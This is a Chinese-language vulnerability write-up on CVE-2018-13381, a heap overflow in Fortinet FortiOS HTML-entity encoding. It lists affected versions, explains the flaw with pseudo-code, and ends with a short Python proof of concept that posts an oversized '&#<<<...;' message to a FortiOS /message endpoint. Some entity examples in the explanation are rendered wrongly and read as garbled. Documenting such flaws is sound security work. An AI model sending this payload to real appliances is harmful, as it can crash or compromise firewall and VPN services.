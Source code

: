 # （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞

> 原文：[http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13381.html](http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13381.html)

## 一、漏洞简介

Fortinet FortiOS 是美国飞塔（Fortinet）公司的一套专用于 FortiGate 网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web 内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0 版本至 6.0.4 版本、5.6.0 版本至 5.6.7 版本和 5.4 及之前版本中存在缓冲区错误漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

在编码 HTML 实体代码时，有两个阶段。服务器首先计算编码字符串所需的缓冲区长度，然后将其编码到缓冲区。在计算阶段，例如，`<`字符编码为 `<`，占用 5 个字节。如果遇到任何以`&#`开头的字符，例如`<`，服务器会认为这个 token 已经被编码了，并直接计算其长度。像这样：

```
c = token[idx];
if (c == '(' || c == ')' || c == '#' || c == '<' || c == '>')
    cnt += 5;
else if(c == '&' && html[idx+1] == '#')
    cnt += len(strchr(html[idx], ';')-idx); 
```

然而，长度计算和编码过程之间将存在不一致，编码部分无法处理这种情况。

```
switch (c)
{
    case '<':
        memcpy(buf[counter], "&#60;", 5);
        counter += 4;
        break;
    case '>':
    // ...
    default:
        buf[counter] = c;
        break;
    counter++;
} 
```

如果我们输入恶意字符串如`&#<<<;`，`<`仍将编码成`<`，所以编码结果应该是`&#<<<;`！这比预期的 6 个字节长得多，从而导致堆溢出。 PoC：

```
import requests

data = {
    'title': 'x', 
    'msg': '&#' + '<'*(0x20000) + ';<', 
}
r = requests.post('https://www.0-sec.org:4433/message', data=data) 
```

